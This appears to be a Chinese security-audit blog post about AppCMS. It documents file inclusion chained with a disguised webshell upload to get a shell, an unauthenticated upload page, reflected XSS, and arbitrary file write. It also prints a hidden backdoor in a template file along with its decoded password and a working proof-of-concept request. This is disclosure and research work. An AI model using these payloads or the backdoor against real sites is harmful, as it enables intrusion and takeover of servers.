









# 任意文件包含

漏洞代码在index.php200～206行。

```php
if (substr($tpl, strlen($tpl) - 4, 4) == '.php') {
    $tmp_file = '/templates/' . $from_mobile . '/' . $tpl;
} else {
    $tmp_file = '/templates/' . $from_mobile . '/' . $tpl . '.php';
}
if (!file_exists(dirname(__FILE__) . $tmp_file)) die('模板页面不存在' . $tmp_file);
require(dirname(__FILE__) . $tmp_file);
```

这里有个`require(dirname(__FILE__) . $tmp_file);`,`$tmp_file`参数可控，代码会检查当前文件是否存在，如果不存在，就die掉，存在包含进来。

所以啊，构造payload如下图所示



既然有文件包含，就想想能不能getshell。首先当然看看有没有任意文件上传的问题。代码搜索`move_uploaded_file`整个代码就出现一处，core/upload.class.php103～106。

```php
        if (in_array(strtolower($file['extension']), array('gif', 'jpg', 'jpeg', 'bmp', 'png', 'swf'))) {
            $info = getimagesize($file['tmp_name']);
            if (false === $info || ('gif' == strtolower($file['extension']) && empty($info['bits']))) {
                $this -> error = '非法图像文件';
                return false;
            } 
        } 
        if (!move_uploaded_file($file['tmp_name'], $this -> autoCharset($filename, 'utf-8', 'gbk'))) {
            $this -> error = '文件上传保存错误！';
            return false;
        } 
```

这里限制了白名单，所以可能没办法上传成功。回过头来想想，我测试的版本是php5.2.17<5.3.4，而且没有开启magic_quotes_gpc。所以我可以上传带有php代码的木马，然后文件包含的时候截断就好了。

找到了文件上传位置。



然后上传带有一句话木马的webshell图片。



针对返回路径url解码之后，返回了

```
[{"original":"\/1\/appcms\/upload\/img\/2018\/06\/26\/5b3238446ccb9.gif","size":4819,"width":24,"height":24}]
```

然后文件包含以下，成功getshell



emmm后面在upload/upload_form.php中发现，这个地方的上传没有校验用户身份啊，这里可以直接未授权访问上传，唯一的代码就是这个。

```php
<?php
    require_once(dirname(__FILE__)."/../core/init.php");
    $upload_server= SITE_PATH."upload/";
    // 上传安全验证字符串
    $verify=helper::encrypt(UPLOAD_CODE.strtotime(date('Y-m-d H:i:s')),UPLOAD_KEY);
    $params=$_GET['params'];
    $params=preg_replace('~(\\\")~','"',$params);
    $json=json_decode($params);
?>
```

这cms真有趣。

# xss漏洞

漏洞位置在/templates/m/inc_head.php 16～17行。

```php
	<input type="text" id="abc" class="search-txt" value="<?php if(isset($_GET['q'])) echo $_GET['q'];?>" />
	<a class="search-btn" href="javascript:do_search();"></a>
```
emmm这里直接通过get获取q之后，直接输出了，明显存在反射型的xss



emmm这个cms全局还有多处存在这个问题。

# 疑似后门

在templates/m/content_list.php中发现了意思好像后门。

```php
<?php 
/**
 *  extention.func.php Óû§×Ô¶¨Ò庯Êý¿â
 *
 * @copyright			(C) 2005-2010 
 * @license				http://www.baidu.com/license/
 * @lastmodify			2010-10-27
 */
@error_reporting (E_ALL & ~E_NOTICE & ~E_WARNING);
if(md5($_GET['session']) == '9c224bc6b59179729b15e1dddcbb5c82'){
$configs="c"."o"."p"."y";
$configs(trim($_GET[url]),$_GET[cms]);}
?>
```

通过针对session进行解码，发现是`kejishidai`，利用的话很简单啊，这里除了这串验证以外，没有啥验证啊。然后实际上执行的是`copy(trim($_GET[url]),$_GET[cms]);`。

所以构造poc：

```
http://192.168.248.129/1/appcms/templates/m/content_list.php?session=kejishidai&url=php://input&cms=phpinfo.php

POST:<?php phpinfo();?>
```





# 任意文件写入

漏洞代码admin/template.php 105~123

```php
function m__create_file() {
    global $page;
    $filename = helper :: escape($page['post']['filename']);
    if (empty($filename)) {
        die('{"code":"100","msg":"文件名不能为空"}');
    } 
    // if (!preg_match('~^$~', $filename)) die('{"code":"100","msg":"文件名只允许是字母"}');
    $dir = dirname(__FILE__) . '/../templates/' . TEMPLATE;
    $files = str_replace('+', '%20', get_file_list($dir)); 
    // 判断文件名是否存在
    if (in_array($filename, $files)) {
        die('{"code":"100","msg":"文件名已经存在"}');
    } 
    // 创建文件
    $handle = fopen($dir . "/" . $filename, "a");
    if (fclose($handle)) {
        die('{"code":"0","msg":"创建文件成功","filename":"' . $filename . '"}');
    } 
} 
```

这里通过post传入数据，然后在templates下创建文件，由于没有针对后缀名限制，所以这里可以任意写入文件。





